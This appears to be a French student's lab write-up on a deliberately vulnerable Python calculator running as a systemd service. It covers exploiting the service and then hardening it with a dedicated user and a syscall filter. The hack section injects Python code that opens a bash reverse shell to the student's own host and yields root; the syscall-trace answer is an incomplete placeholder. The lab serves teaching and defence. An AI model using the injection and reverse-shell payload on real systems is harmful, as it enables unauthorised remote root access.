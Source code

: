 # Part IV : My shitty app

**[une application Python (toute pourrie) codée avec mes mains](./calc.py) :**

- elle écoute sur un port TCP
- un client peut se connecter (genre avec `nc`)
- le client peut soumettre une opération arithmétique
- l'application calcule le résultat et l'envoie au client
- l'application se termine

## 1. Création de service

🌞 **Créer un service `calculatrice.service`**

```ini
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
Restart=always

[Install]
WantedBy=multi-user.target
```

🌞 **Indiquer à systemd que vous avez modifié les services**

```bash
# on indique à systemd de relire les fichiers de définition de service
sudo systemctl daemon-reload
```

🌞 **Vérifier que ce nouveau service est bien reconnu***

- exécutez un simple `systemctl status calculatrice`
```ps
[dums@vbox ~]$ systemctl status calculatrice
● calculatrice.service - Super serveur calculatrice
     Loaded: loaded (/etc/systemd/system/calculatrice.service; enabled; preset: disabled)
     Active: active (running) since Wed 2025-02-19 22:30:50 CET; 1min 23s ago
   Main PID: 1359 (python3)
      Tasks: 1 (limit: 11101)
     Memory: 3.3M
        CPU: 44ms
     CGroup: /system.slice/calculatrice.service
             └─1359 /usr/bin/python3 /opt/calc.py

Feb 19 22:30:50 vbox systemd[1]: Started Super serveur calculatrice.
```

🌞 **Vous devez pouvoir utiliser l'application normalement :**

- on peut se connecter depuis notre PC
```ps
PS C:\Users\cleme> ncat 10.1.1.11 13337
hello
Hello3+3
6
```
- l'affichage de l'application est disponible dans les logs : 
```ps
journalctl -xe -u calculatrice
Feb 19 22:30:50 vbox systemd[1]: Started Super serveur calculatrice.
   Subject: A start job for unit calculatrice.service has finished successfully
   Defined-By: systemd
   Support: https://wiki.rockylinux.org/rocky/support  
   A start job for unit calculatrice.service has finished successfully.
  
   The job identifier is 907. 
```

## 3. Hack

🌞 **Hack l'application**




J'ai utilisé un reverse shell vers le port 4444 de ma machine perso.
Voila ce que j'écris dans l'application : 
```ps
PS C:\Users\cleme> ncat 10.1.1.11 13337
hello
Hello__import__('os').system('bash -c "bash -i >& /dev/tcp/10.1.1.0/4444 0>&1"')
```
Dans mon reverse shell : 
```ps
PS C:\Users\cleme> ncat -lvnp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.1.1.11:44150.
bash: cannot set terminal process group (1496): Inappropriate ioctl for device
bash: no job control in this shell
[root@vbox /]# whoami
whoami
root
[root@vbox /]# shutdown now
shutdown now
[root@vbox /]#
PS C:\Users\cleme>
```

## 4. Harden

### A. Utilisateurs

🌞 **Prouvez que le service s'exécute actuellement en `root`**

```ps 
[dums@vbox ~]$ ps aux | grep calc.py
root         680  0.0  0.4  10892  8576 ?        Ss   23:30   0:00 /usr/bin/python3 /opt/calc.py
```
```ps
[dums@vbox ~]$ ps aux | grep calculatrice
dums        1302  0.0  0.1   6408  2304 pts/0    S+   23:36   0:00 grep --color=auto calculatrice
```

🌞 **Créer l'utilisateur `calculatrice`**

```ps
sudo useradd -r -s /sbin/nologin -M calculatrice
```

🌞 **Adaptez les permissions**

```ps
sudo chown calculatrice:calculatrice /opt/calc.py
```
```ps
sudo chmod 700 /opt/calc.py
```
🌞 **Modifier le `.service`**

- On ajoute la clause `User=calculatrice`

🌞 **Prouvez que le service s'exécute désormais en tant que `calculatrice`**

```ps
[dums@vbox ~]$ ps aux | grep calc.py
calcula+    1353  0.7  0.4  10828  8192 ?        Ss   23:43   0:00 /usr/bin/python3 /opt/calc.py
dums        1355  0.0  0.1   6412  2304 pts/0    S+   23:43   0:00 grep --color=auto calc.py
```

### B. Syscalls

Bon bah ouais on revient au thème du TP, vous le voyez venir :D

🌞 **Tracez l'exécution de l'application : normal**

- effectuez un tracing avec `strace` ou `sysdig`
- donnez dans le compte-rendu la liste des syscalls effectués par l'application `calc.py` pendant son fonctionnement normal

sortie sysdig --> [calculatrice.scap](./calculatrice.scap)

🌞 **Tracez l'exécution de l'application : hack**

- vous voyez un ou plusieurs syscalls en plus ? Si oui, lesquels ?

```ps
switch
```



🌞 **Adaptez le `.service`**

- ajoutez un filtrage des *syscalls* dans le fichier `calculatrice.service`
- vérifiez que l'exploitation est devenue plus compliquée

```ps
[dums@vbox ~]$ sudo cat /etc/systemd/system/calculatrice.service
[Unit]
Description=Super serveur calculatrice

[Service]
ExecStart=/usr/bin/python3 /opt/calc.py
User=calculatrice
Restart=always

SystemCallFilter=~fork clone vfork

[Install]
WantedBy=multi-user.target
```

Fichier --> [calculatrice.service](./calculatrice.service)
